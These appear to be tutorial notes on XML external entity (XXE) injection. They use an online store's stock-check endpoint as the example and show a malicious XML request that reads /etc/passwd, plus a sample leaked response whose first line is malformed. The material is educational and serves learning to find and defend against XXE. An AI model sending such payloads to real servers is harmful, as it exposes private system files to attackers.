

## Detailed Example: Online Store Check Stock Functionality

### Scenario Overview

Consider an online store that has a functionality to check the stock availability of products. When a user clicks the "Check Stock" button, the application makes a request to the `/product/stock` endpoint, sending an XML document containing the product ID and store ID.

#### Example Request

```http
POST /product/stock HTTP/1.1
Host: example.com
Content-Type: application/xml

<?xml version="1.0"?>
<checkStockRequest>
  <productId>17</productId>
  <storeId>1</storeId>
</checkStockRequest>
```

#### Expected Response

```http
HTTP/1.1 200 OK
Content-Type: application/xml

<?xml version="1.0"?>
<checkStockResponse>
  <unitsAvailable>72</unitsAvailable>
</checkStockResponse>
```

### Attacker's Perspective

An attacker can exploit the XXE vulnerability by injecting malicious XML content that includes external entities. This can be used to read sensitive files, perform port scans, or interact with internal systems.

#### Malicious Request Example

```http
POST /product/stock HTTP/1.1
Host: example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE checkStockRequest [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<checkStockRequest>
  <productId>17</productId>
  <storeId>&xxe;</storeId>
</checkStockRequest>
```

#### Potential Response

```http
HTTP/1.1 200 OK
Content-Type: application/xml

<?xml version="1.0"?>
<checkStockResponse>
  <unitsAvailable>/bin/bash:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  ...
</checkStockResponse>
```

### Diagram: XXE Attack Flow



---
<!-- nav -->
[[13-Confirming XXE Vulnerabilities|Confirming XXE Vulnerabilities]] | [[Web Security (PortSwigger)/08-XXE Injection/01-XXE Injection Complete Guide/00-Overview|Overview]] | [[15-Detailed Explanation of XXE Injection|Detailed Explanation of XXE Injection]]
